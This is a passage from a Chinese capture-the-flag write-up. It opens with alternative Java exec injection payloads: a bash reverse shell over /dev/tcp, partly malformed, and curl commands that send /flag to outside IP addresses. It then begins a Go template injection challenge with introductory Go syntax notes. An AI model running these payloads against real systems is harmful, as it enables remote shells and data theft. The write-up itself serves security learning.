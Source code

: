 其他可行payload

```plain
exec(newString[]{'bash'-c','sh -i>& /dev/tcp/ip/端口 0>&1'})
```

```plain
exec(new String[]{'curl','81.70.16.8:8888','-d','@/flag'})
exec(new String[]{'curl','http://47.113.202.32:23233','-T','/flag'})
```

参考：

[https://xz.aliyun.com/t/12568](https://xz.aliyun.com/t/12568)  
[http://www.syrr.cn/news/7874.html](http://www.syrr.cn/news/7874.html)

- - -

## go\_session

#### **一、知识前置**

**简单介绍：**

其他像Python、PHP环境下的模板注入一样，Go语言下的模板注入也是因为未使用 Go 中渲染模板的预期方式来利用，用户传入的数据直接传递到了能够被模板执行的位置，导致了一系列的安全问题。

##### （一）go语言基础

首先结合菜鸟教程先来学习一下go语言的基本语法，简单熟悉一下go的语言：

```plain
package main
import "fmt"
func main(){//需要注意的是 { 不能单独放在一行，所以以下代码在运行时会产生错误：
  fmt.Println("Hello,World!")
}
```

> -   第一行代码 package main 定义了包名。你必须在源文件中非注释的第一行指明这个文件属于哪个包，如：package main。package main表示一个可独立执行的程序，每个 Go 应用程序都包含一个名为 main 的包。
>     
> -   下一行 import "fmt" 告诉 Go 编译器这个程序需要使用 fmt 包（的函数，或其他元素），fmt 包实现了格式化 IO（输入/输出）的函数。
>     
> -   下一行 func main() 是程序开始执行的函数。main 函数是每一个可执行程序所必须包含的，一般来说都是在启动后第一个执行的函数（如果有 init() 函数则会先执行该函数）。
> -   下一行 fmt.Println(...) 可以将字符串输出到控制台，并在最后自动增加换行字符 \\n。使用 fmt.Print("hello, world\\n") 可以得到相同的结果。
> -   Print 和 Println 这两个函数也支持使用变量，如：fmt.Println(arr)。如果没有特别指定，它们会以默认的打印格式将变量 arr 输出到控制台。

当标识符（包括常量、变量、类型、函数名、结构字段等等）以一个大写字母开头，如：Group1，那么使用这种形式的标识符的对象就可以被外部包的代码所使用（客户端程序需要先导入这个包），这被称为导出（像面向对象语言中的 public）；标识符如果以小写字母开头，则对包外是不可见的，但是他们在整个包的内部是可见并且可用的（像面向对象语言中的 protected ）。

**Go 标记：**

Go 程序可以由多个标记组成，可以是关键字，标识符，常量，字符串，符号。如以下 GO 语句由 6 个标记组成：

**格式化字符串**

Go 语言中使用 **fmt.Sprintf** 或 **fmt.Printf** 格式化字符串并赋值给新串：

-   **Sprintf** 根据**格式化参数生成格式化的字符串**并返回该字符串。
-   **Printf** 根据**格式化参数生成格式化的字符串**并写入标准输出。
    